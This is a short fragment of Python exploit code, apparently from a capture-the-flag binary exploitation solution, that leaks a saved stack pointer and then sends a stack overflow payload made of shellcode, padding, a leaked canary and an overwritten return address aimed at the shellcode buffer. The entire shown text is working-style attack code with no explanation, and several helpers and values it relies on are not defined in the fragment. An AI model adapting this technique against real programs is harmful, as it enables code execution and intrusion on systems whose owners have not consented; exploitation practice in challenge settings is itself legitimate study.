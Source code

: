```python

payload += b'a'*0x18
s(payload)
ru(payload)
saved_rbp = u64(r(6).ljust(8, b'\x00'))
leak('saved rbp', saved_rbp)

chall1_buf = (saved_rbp - 0x1a0)
leak('chall1 buf', chall1_buf)
chall2_buf = chall1_buf - 0x100
leak('sc addr', chall2_buf)
pause()
payload = asm(sc).ljust(0x78, b'a') + p32(0) + p32(1) + p32(0x5a)
payload += b'a'*4 + p64(canary) + b'a'*0x18 + p64(chall2_buf)
s(payload)
```
